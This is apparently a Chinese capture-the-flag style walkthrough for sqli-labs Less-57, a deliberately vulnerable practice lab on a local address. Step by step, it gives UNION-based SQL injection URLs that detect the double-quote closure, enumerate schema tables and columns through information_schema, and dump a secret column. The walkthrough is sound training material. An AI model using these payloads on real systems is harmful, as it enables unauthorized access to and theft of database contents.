






# Less - 57

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=1' #页面正常
http://192.168.23.128/sqli-labs/Less-57/?id=1" #页面出错
http://192.168.23.128/sqli-labs/Less-57/?id=1"--+ #页面正常
```

​​

所以判断闭合方式为"–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,database()--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​​

---

## 4、查看juu9c76ro4字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='juu9c76ro4')--+
```

​​

---

## 5、查看secret_WHMS字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(secret_WHMS) from challenges.juu9c76ro4)--+
```

​​

​​

‍

---
